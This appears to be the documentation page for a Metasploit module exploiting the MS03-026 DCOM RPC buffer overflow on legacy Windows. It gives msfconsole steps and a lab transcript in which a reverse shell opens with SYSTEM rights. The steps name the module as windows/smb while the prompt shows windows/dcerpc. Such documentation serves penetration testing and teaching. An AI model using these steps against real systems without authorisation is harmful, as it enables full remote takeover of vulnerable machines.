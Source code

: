 ## Vulnerable Application

This module exploits a stack buffer overflow in the RPCSS service, this vulnerability
was originally found by the Last Stage of Delirium research group and has been
widely exploited ever since. This module can exploit the English versions of
Windows NT 4.0 SP3-6a, Windows 2000, Windows XP, and Windows 2003 all in one request :)

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/windows/smb/ms03_026_dcom`
1. Do: `set rhosts <rhosts>`
1. Do: `run`
1. You should get a `SYSTEM` shell.

## Options

## Scenarios

### Windows 2000 Server SP4 (English)

```
msf exploit(windows/dcerpc/ms03_026_dcom) > run

[*] Started reverse TCP handler on 172.16.191.192:4444 
[*] 172.16.191.164:135 - Trying target Windows NT SP3-6a/2000/XP/2003 Universal...
[*] 172.16.191.164:135 - Binding to 4d9f4ab8-7d1c-11cf-861e-0020af6e7c57:0.0@ncacn_ip_tcp:172.16.191.164[135] ...
[*] 172.16.191.164:135 - Calling DCOM RPC with payload (1648 bytes) ...
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 172.16.191.164
[*] Command shell session 1 opened (172.16.191.192:4444 -> 172.16.191.164:1027 ) at 2021-11-27 23:52:35 -0500


Shell Banner:
Microsoft Windows 2000 [Version 5.00.2195]
(C) Copyright 1985-2000 Microsoft Corp.

C:\WINNT\system32>
-----
          

C:\WINNT\system32>
```
